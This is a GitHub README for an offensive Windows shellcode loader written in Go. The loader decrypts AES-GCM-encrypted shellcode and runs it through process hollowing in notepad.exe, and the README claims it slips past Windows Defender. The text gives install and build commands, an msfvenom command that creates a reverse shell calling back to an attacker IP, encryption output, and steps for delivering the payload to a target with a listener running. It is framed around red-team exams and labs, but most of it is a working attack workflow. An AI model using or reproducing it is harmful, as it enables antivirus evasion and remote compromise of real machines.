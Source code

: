 # Goloader

This is a basic Windows shellcode loader I used for some Red Team and AD Pentest certification exam, this also works well against most HTB/Vulnlab labs with WinDef on. It took AES GCM encrypted shellcode and Base64 key provided by aes.py as input, the loader will use the Process Hollowing to execute the shellcode inside a notepad.exe sacrificial process. 

Below, I tested with sliver mtls beacon's shellcode, I encoded the shellcode with aes.py and saved the key later for loader. 
```
python3 aes.py ARBITRARY_STOREY.bin

[--- ENCRYPTION KEY (32-byte raw key in BASE64) ---]
4mdG4D8a9SamnWmcMc79siNE3QUwedDUzldrIjamfbg=
-------------------------------------------------------------------

[+] Encryption successful! Output is raw binary.
[+] Encrypted file saved to: ARBITRARY_STOREY.bin.enc
[+] Key file written (UTF-16LE) -> ARBITRARY_STOREY.bin.key
```
![alt text](images/load.png)

![alt text](images/receive.png)

# Installation
```
go install github.com/dwgth4i/goloader@lastest
```
Or you can just clone the repo and build it yourself
```
git clone https://github.com/dwgth4i/goloader

cd goloader

go build
```
# Usage

First of all, generate the shellcode you want to load with any shellcode generator you like, it could be motar, donut, msfvenom, any C2 beacon generator ... In this example lets try a msfvenom x64 Windows reverse shell payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.112.128 LPORT=443 -f raw > payload.bin
```
Encrypt it with aes.py
```
python3 aes.py payload.bin
```
![alt text](images/encrypt.png)

This encryted shellcode can then be delivered to target machine and use goloader to execute it along with the base64 key, before that remember to start the listener on the attacker machine.

![alt text](images/load_2.png)

![alt text](images/receive_2.png)
